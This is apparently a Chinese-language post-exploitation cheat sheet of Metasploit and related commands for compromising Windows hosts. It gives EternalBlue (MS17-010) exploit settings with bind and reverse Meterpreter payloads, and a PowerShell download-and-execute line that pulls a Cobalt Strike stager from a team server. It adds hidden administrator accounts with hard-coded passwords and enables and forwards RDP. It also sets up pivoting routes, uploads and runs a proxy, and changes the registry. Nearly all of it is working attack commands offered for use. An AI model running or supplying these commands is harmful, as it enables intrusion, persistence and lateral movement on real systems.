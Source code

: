 # MSF后渗透命令集合开启3389等（军事化）

## MSF命令

### ms17010

```bash
# 使用正向TCP
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD  payload/windows/x64/meterpreter/bind_tcp
set LPORT 54444
set RHOST [ip]
exploit

# 使用反向tcp
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD  payload/windows/x64/meterpreter/reverse_tcp
set LPORT 38777
set RHOST [ip]
exploit
```

### CS上线

1. 在msf session直接执行powershell上线CS，免上传文件，只能打第一层网络

```bash
load powershell
powershell_execute "IEX ((new-object net.webclient).downloadstring('http://TeamServer—ip:33211/bugs'))"


IEX ((new-object net.webclient).downloadstring('http://192.168.137.231:33211/bugs'))
```

### 添加账号开启3389

```bash
# fscan，添加一个账号  sysadmin  密码1qaz@WSX!@#4  只支持x64
fscan.exe -h 192.168.1.0/24 -m ms17010 -sc add
# 启用guest账号，并添加为管理员
fscan.exe -h 192.168.1.0/24 -m ms17010 -sc guest


# 开启3389并且添加用户
run post/windows/manage/enable_rdp username="synb123" password="qqNBNo.1"

# 仅开启3389
run post/windows/manage/enable_rdp

# 转发3389端口到本地6662
run post/windows/manage/enable_rdp FORWARD=true LPORT=6662

# 进入主机shell
shell

# 备用cmd命令
net user synb123 qqNBNo.1 /add
net localgroup administrators synb123 /add
## 查看用户
net user synb123
```

### 添加自动路由

```bash
run post/multi/manage/autoroute
```

### 上传代理

```
upload qqproxy/qqproxy.exe c:\\qqproxy.exe
```

### 后台执行一个exe

```
execute -f c:\\qqproxy.exe
```



### 使用socks代理

```bash
setg Proxies socks5:ip:41088

setg ReverseAllowProxy true
```

## 附录：

WMIC命令开3389

```
wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != "") call
    setallowtsconnections 1
wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName ='RDP-Tcp') call
        setuserauthenticationrequired 1
```
注册表开启3389

```bash
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
```

注册表关闭3389

`REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 11111111 /f`

查rdp端口

```
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber
```
